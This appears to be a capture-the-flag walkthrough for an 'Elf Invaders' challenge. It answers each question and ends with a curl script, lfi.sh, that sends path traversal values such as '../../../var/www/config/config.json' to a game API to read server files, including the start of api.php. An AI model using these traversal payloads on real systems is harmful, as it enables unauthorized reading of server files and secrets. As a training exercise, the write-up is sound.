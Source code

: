 # Elf Invaders

https://www.bram.us/2020/04/08/how-to-enable-http3-in-chrome-firefox-safari/ Enable HTTP3 in firefox

## Find the version number of the Cabinet once you see the game. (e.g. 8.675309)

In the source of the main HTML file is

```html
<meta name="description" content="Elf Invaders Version 1.61434327095534551" />
```

## What is the message when you score over 9500? (e.g. That's over 9500!)

In the hitbox detection function, set `player.score = 10000` and then let it resume execution. You eventually make a request to the API that results in a response
with `Score Level Over 9000!`

## What's the date in api.php?

`5/1/2019`

It looks like there's an api request with a file. Use the curl version on the elf debug terminal since it has http3 support. Create a script, `lfi.sh`.

```
#!/bin/sh
curl --silent --http3 'https://elf-invaders.elfu.org/api.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: https://elf-invaders.elfu.org' -H 'Alt-Used: elf-invaders.elfu.org' -H 'Connection: keep-alive' -H 'Referer: https://elf-invaders.elfu.org/leaderboard.php' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'TE: Trailers' --data-raw "conf=${1}" | sed -n 's/.*"data":"//p' | sed -n 's/"}//p'
echo ''
```

We can then use the script to grab stuff

```
../config/config.json returns a file
../../www/config/config.json
./lfi.sh "../../../var/www/config/config.json" works but /var/www/config/config.json doesn't work
../lfi.sh ../html/api.php
```

in api.php

```
<?php
  // Made By Alabaster Snowball on 5/1/2019
  function get_db() {
    $dbname = '/var/www/db/elfinvaders.sqlite';
    if (file_exists($dbname) && filesize($dbname) > 500000) {
      unlink($dbname);
    }
```

